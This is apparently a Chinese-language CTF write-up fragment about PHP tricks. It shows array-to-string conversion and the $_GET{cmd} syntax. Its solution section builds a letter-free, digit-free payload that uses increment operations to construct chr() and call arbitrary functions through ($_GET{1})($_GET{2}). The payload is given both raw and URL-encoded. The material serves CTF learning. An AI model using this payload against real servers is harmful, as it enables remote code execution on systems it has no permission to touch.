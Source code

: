 ```php
$a = $a.[];
echo $a;
/*输出
Array
并抛出错误"Array to string conversion"（数组转字符串）
故可知，将数组与变量强行连接，该变量将保存数组转字符串的结果"Array"
*/
```

2、

```php
echo $_GET{cmd};
//可行，但会抛出错误
```

###### 题解

无字母可数字，但不能异或、或、取反，则只能自增。

因为限制了长度，纯自增也不行，但可自增构造 chr 函数。

- F12 → GET 传入 hint 。

- 构造 payload：($_GET{1})($\_GET{2})

  ```php
  $___.=[];$_=$___[3];$_++;$_++;$__=$_++;$_++;$_++;$_++;$__.=++$_.$___[2];$_=_.$__(71).$__(69).$__(84);($$_{1})($$_{2});
  ```

  url 编码：

  ```
  %24___.%3D%5B%5D%3B%24_%3D%24___%5B3%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_.%24___%5B2%5D%3B%24_%3D_.%24__(71).%24__(69).%24__(84)%3B(%24%24_%7B1%7D)(%24%24_%7B2%7D)%3B
  ```

- ![](picture/5.png)

- ![](picture/6.png)
